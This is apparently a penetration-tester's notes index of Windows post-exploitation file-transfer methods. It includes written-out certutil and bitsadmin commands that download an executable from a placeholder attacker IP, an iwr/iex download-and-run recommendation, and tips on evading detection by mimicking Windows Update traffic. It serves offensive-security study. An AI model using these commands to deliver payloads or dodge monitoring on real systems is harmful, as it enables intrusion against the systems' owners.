 ```yaml
---
tags: [windows, file-transfer, post-exploitation, powershell, cmd]
aliases: [Windows Transfers, Windows File Transfer]
---
```


# 🪟 Windows File Transfer Methods Overview

> **Complete guide to file transfer techniques on Windows systems**

[[📁 File Transfer Master Index|← Back to Master Index]]

## 📥 Download Methods (To Target Machine)

### 🔵 PowerShell Methods
- [[Download Files to the Target Machine/PowerShell Web Downloads|PowerShell Web Downloads]]
  - `Invoke-WebRequest` (IWR)
  - `System.Net.WebClient`
  - `Start-BitsTransfer`
- [[Download Files to the Target Machine/PowerShell Base64 Encode & Decode|PowerShell Base64 Methods]]
  - Obfuscated downloads
  - Bypass content filters

### 🔴 CMD Methods
- **Certutil** - Certificate utility abuse
  ```cmd
  certutil -urlcache -f http://IP/file.exe file.exe
  ```
- **Bitsadmin** - Background Intelligent Transfer
  ```cmd
  bitsadmin /transfer job http://IP/file.exe C:\file.exe
  ```

### 📁 Network Shares
- [[Download Files to the Target Machine/SMB Server Downloads|SMB Downloads]]
  - Impacket SMB server
  - Native Windows shares
- [[Download Files to the Target Machine/FTP Downloads|FTP Downloads]]
  - Built-in FTP client

---

## 📤 Upload Methods (From Target Machine)

### 🔵 PowerShell Uploads
- [[Upload Files to Attacker machine/Powershell Web Uploads|Web Uploads]]
  - POST requests
  - Multipart forms
- [[Upload Files to Attacker machine/PowerShell Base64 Web Upload|Base64 Web Upload]]
  - Encoded POST data
- [[Upload Files to Attacker machine/Encode Files using PowerShell|File Encoding]]

### 📁 Network Shares
- [[Upload Files to Attacker machine/FTP Uploads|FTP Uploads]]
  - FTP PUT commands
- [[Upload Files to Attacker machine/SMB Uploads with WebDAV — Bypassing SMB Blocks|WebDAV/SMB Uploads]]
  - Bypass SMB restrictions

---

## 🎯 Quick Decision Matrix

| Scenario | Recommended Method | Fallback |
|----------|-------------------|----------|
| PS Available | `iwr`/`iex` | WebClient |
| PS Restricted | Certutil | Bitsadmin |
| Large Files | SMB/FTP | BITS |
| Stealth Required | BITS | Certutil |
| No Internet | SMB/RDP | USB/Physical |
| Encrypted | HTTPS/SSL | Base64 |

---

## 💡 Pro Tips

### Detection Bypass
1. **Use BITS** - Mimics Windows Update traffic
2. **Certutil** - Legitimate certificate tool
3. **Base64** - Evades content filters
4. **Living off the Land** - Use native binaries

### Speed Optimization
- SMB for large files (>100MB)
- Multiple concurrent BITS transfers
- Compression before transfer

### Common Pitfalls
- ⚠️ PowerShell execution policy
- ⚠️ Proxy authentication
- ⚠️ AV/EDR detection
- ⚠️ Firewall rules

---

## 📊 Method Comparison

| Method | Speed | Stealth | Reliability | Requirements |
|--------|-------|---------|-------------|--------------|
| PowerShell IWR | ⭐⭐⭐ | ⭐⭐ | ⭐⭐⭐⭐ | PS 3.0+ |
| Certutil | ⭐⭐⭐ | ⭐⭐⭐ | ⭐⭐⭐ | Native |
| Bitsadmin | ⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐ | Native |
| SMB | ⭐⭐⭐⭐ | ⭐ | ⭐⭐⭐ | Port 445 |
| FTP | ⭐⭐⭐ | ⭐ | ⭐⭐ | Port 21 |

---

## 🔗 Related Techniques
- [[../Powershell File Transfer|PowerShell Specific Methods]]
- [[../RDP File Transfer|RDP Transfer Methods]]
- [[../LOTL File Transfers|Living off the Land]]
- [[../Protected File Transfers|Encrypted Transfers]]

---

## 🏷️ Tags
#windows #file-transfer #powershell #cmd #post-exploitation #download #upload